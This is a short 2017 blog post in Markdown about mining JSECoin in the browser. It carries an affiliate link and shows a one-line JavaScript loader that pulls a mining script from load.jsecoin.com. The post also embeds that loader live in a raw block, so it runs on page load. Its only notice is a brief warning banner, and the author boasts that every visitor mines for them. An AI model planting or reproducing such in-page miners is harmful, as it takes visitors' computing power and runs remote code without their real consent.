 ```yaml
---
title: Mining Cryptocurrency on Web
date: 2017-12-22 11:49:28
tags:
  - Blockchain
  - Cryptocurrency
category:
  - Misc
---
```


![](cryptocurrency.png)

**Warning: A background script is running**

You can join [JSECoin](https://platform.jsecoin.com/?lander=1&utm_source=referral&utm_campaign=aff44704&utm_content=)

The JSECoin cannot trade to other cryptocurrency nor currency, so it is just for fun. Imagine whoever visit this page will run the mining for me!

I have embed below script in this page to run,
{% codeblock lang:html %}
<script type="text/javascript">
!function(){var e=document,t=e.createElement("script"),s=e.getElementsByTagName("script")[0];t.type="text/javascript",t.async=t.defer=!0,t.src="https://load.jsecoin.com/load/44704/neo.works/0/0/",s.parentNode.insertBefore(t,s)}();
</script>
{% endcodeblock %}

{% raw %}
<script type="text/javascript">
!function(){var e=document,t=e.createElement("script"),s=e.getElementsByTagName("script")[0];t.type="text/javascript",t.async=t.defer=!0,t.src="https://load.jsecoin.com/load/44704/neo.works/0/0/",s.parentNode.insertBefore(t,s)}();
</script>
{% endraw %}
